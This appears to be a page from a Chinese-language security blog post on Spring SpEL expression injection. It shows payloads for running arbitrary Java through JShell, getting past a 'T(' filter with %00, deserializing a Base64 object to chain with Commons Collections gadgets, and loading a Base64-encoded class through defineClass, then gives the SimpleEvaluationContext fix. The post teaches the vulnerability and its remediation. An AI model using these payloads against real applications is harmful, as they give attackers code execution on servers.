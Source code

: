 ```scss
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

接下来这三个都具体使用可以在https://landgrey.me/blog/15/看到

## 绕过T( 过滤

```perl
T%00(new)
这涉及到SpEL对字符的编码，%00会被直接替换为空
```

## 使用Spring工具类反序列化，绕过new关键字

```scss
T(org.springframework.util.SerializationUtils).deserialize(T(com.sun.org.apache.xml.internal.security.utils.Base64).decode('rO0AB...'))
// 可以结合CC链食用
```

## 使用Spring工具类执行自定义类的静态代码块

```scss
T(org.springframework.cglib.core.ReflectUtils).defineClass('Singleton',T(com.sun.org.apache.xml.internal.security.utils.Base64).decode('yv66vgAAADIAtQ....'),T(org.springframework.util.ClassUtils).getDefaultClassLoader())
```

需要在自定义类写静态代码块 `static{}`

# 关于漏洞修复

在挺多存在Spel注入漏洞的补丁中，经常会看到一个SimpleEvaluationContext类

spEL表达式是可以操作类和方法的，可以通过类型表达式T(Type)来调用任意类方法，这是因为在不指定`EvaluationContext`的情况下默认采用`StandardEvaluationContext`，而它包含了spEL的所有功能，在允许用户控制输入的情况下可以造成任意命令执行

最直接的防御方法就是使用`SimpleEvaluationContext`替换`StandardEvaluationContext`

- SimpleEvaluationContext - 针对不需要SpEL语言语法的全部范围并且应该受到有意限制的表达式类别，公开SpEL语言特性和配置选项的子集。
- StandardEvaluationContext - 公开全套SpEL语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

SimpleEvaluationContext旨在仅支持SpEL语言语法的一个子集，不包括 Java类型引用、构造函数和bean引用；而StandardEvaluationContext是支持全部SpEL语法的

SimpleEvaluationContext 旨在仅支持 SpEL 语言语法的一个子集。它不包括 Java 类型引用，构造函数和 bean 引用；所以最直接的修复方式是使用 SimpleEvaluationContext 替换 StandardEvaluationContext

# 后记

这篇文章浅显的了解一下Spel表达式注入的主要API，然后记录一下payload和bypass，基本上是抄录的https://www.cnblogs.com/bitterz/p/15206255.html文章，不算自己的文章，只是在里面加上了一点自己的实践

